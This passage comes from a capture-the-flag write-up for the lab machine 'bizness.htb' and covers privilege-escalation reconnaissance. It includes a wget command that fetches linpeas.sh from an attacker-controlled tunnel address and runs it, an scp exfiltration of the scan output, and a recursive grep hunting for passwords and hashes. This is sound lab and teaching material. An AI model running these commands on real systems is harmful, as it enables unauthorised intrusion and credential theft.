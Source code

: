 * No significant SUID files found.

#### Scanning for Internal Ports

Searched for listening internal ports.

**Command:**

```bash
netstat -ano
```

**Outcome:**

* No notable internal ports detected.

#### Automated Scouting with LinPEAS

Deployed `linpeas.sh` for vulnerability scanning.

**LinPEAS Deployment:**

```bash
cd /tmp
wget http://<IP-tun0>:<port>/linpeas.sh
bash ./linpeas.sh
```

**Further Analysis:** Re-ran LinPEAS and saved output for detailed local analysis.

**On the Target Machine:**

```bash
bash ./linpeas.sh > /tmp/linpease.txt
```

**On the Local Machine:**

```bash
scp -i ~/.ssh/id_rsa ofbiz@bizness.htb:/tmp/linpease.txt ./
```

**Outcome:**

* LinPEAS did not reveal significant leads, hinting at a potential rabbit hole.

### Exploring Alternative Avenues

#### The Quest for Ultimate Power

The search for a direct escalation path was challenging, but persistence led to potential password clues.

**Password Hunt:**

```bash
grep -aRinH --color -o -E '(\w+\w+){0,5}password(\w+\w+){0,5}'
```

**Discovery:**

* Files indicating password usage.
* Encountered a SHA-1 hash and a .dat file revealing a Base64 encoded SHA1 structure.
